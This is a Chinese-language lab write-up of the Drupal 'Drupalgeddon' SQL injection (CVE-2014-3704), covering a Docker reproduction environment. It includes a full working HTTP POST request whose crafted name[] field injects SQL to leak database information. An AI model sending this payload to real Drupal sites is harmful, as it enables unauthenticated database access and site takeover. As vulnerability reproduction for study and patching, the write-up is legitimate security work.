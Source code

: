 ```yaml
---
title: "（CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞"
id: zhfly2891
---
```


# （CVE-2014-3704）Drupal < 7.32 “Drupalgeddon” sql注入漏洞

## 一、漏洞简介

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 二、漏洞影响

Drupal 7.0~7.31

## 三、复现过程

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker-compose up -d 
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![image](../img/23c47976474311cc876dbc08c4351775.png)

安装完成后，访问首页：

![image](../img/91ed934711e16ebd5dc6ed6d79a93b9e.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120 `pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a` 
```

可见，信息已被爆出：

![image](../img/df97e873a3420d196494be00f7878e9d.png)

## 参考链接

> https://vulhub.org/#/environments/drupal/CVE-2014-3704/